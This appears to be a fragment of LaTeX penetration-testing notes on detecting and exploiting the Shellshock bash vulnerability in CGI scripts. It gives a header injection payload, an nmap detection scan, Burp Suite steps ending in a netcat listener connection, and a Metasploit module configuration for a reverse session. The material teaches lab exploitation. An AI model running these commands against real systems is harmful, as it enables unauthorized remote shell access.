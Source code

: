 \begin{notebox}
\subsection{Finding Shellshock}

\begin{termbox}
# Browse to the target IP and look for CGI scripts
# Check for running processes that hint at CGI
# In Burp Suite: intercept a request to a .cgi URL
# Modify the User-Agent header to test:
# User-Agent: () { :; }; echo; /bin/bash -i

# Check if Apache is vulnerable
nmap -sV --script http-shellshock --script-args uri=/cgi-bin/script.cgi target_ip
\end{termbox}

\subsection{Exploiting Shellshock with Burp Suite}

\begin{enumerate}
  \item Open Burp Suite from Kali Applications
  \item Choose Temporary Project $\rightarrow$ Start Burp
  \item Click Proxy tab, ensure Intercept is On
  \item Visit the CGI URL in the browser (through Burp's proxy)
  \item Intercept the request, right-click $\rightarrow$ Send to Repeater
  \item In the Repeater tab, modify a header (e.g., User-Agent) to inject the
        Bash payload
  \item Start a netcat listener: 
  \item Click Send --- connection established in the listener
\end{enumerate}

\subsection{Exploiting Shellshock with Metasploit}

\begin{termbox}
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST target_ip
set LHOST my_ip
set LPORT 4444
set TARGETURI /gettime.cgi    # Actual path to the vulnerable CGI script
exploit
\end{termbox}


\end{notebox}
